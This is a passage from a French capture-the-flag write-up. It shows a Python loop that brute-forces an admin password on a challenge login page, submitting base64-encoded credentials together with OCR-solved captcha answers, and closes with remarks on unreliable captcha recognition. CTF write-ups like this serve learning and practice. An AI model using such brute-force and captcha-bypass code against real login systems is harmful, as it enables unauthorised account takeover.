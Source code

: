 ```python

        password = format(i, "#05")
        username = "admin"

        ret = fromDateToId(ret)

        req = s.post("http://passichronophage.chall.malicecyber.com/login.php",
            data = {'username':base64.b64encode(username.encode("utf-8")), 'password':base64.b64encode(password.encode("utf-8")), 'captcha':base64.b64encode(ret.encode("utf-8"))})
        
        if "Wrong captcha" in req.text:
            print(f"Wrong Captcha: {i}")
        elif "Bad username/password" in req.text:
            print(f"Bad password: {i}")
        else:
            print(f"Password: {i}")
            exit()
```

## Conclusion

Etant donné que les captchas étaient générés aléatoirement il n'était pas possible d'éliminer correctement le bruit à chaque fois et donc d'obtenir un taux de réussite de 100% quand à la détermination des captchas.
C'est pourquoi il était plus judicieux de s'assurer que le captcha était bien validé avant de voir si le mot de passe essayé était à bon ou non, dans le cas contraire si le bon mot de passe était essayé mais que le captcha n'était pas le bon, tout le reste du bruteforce était à jeter (logique hein). Je n'ait pas utilisé cette technique je m'estime donc chanceux que le captcha soit juste lorsque le mot de passe correct a été essayé! ;)

![](./assets/Capture_x.PNG)
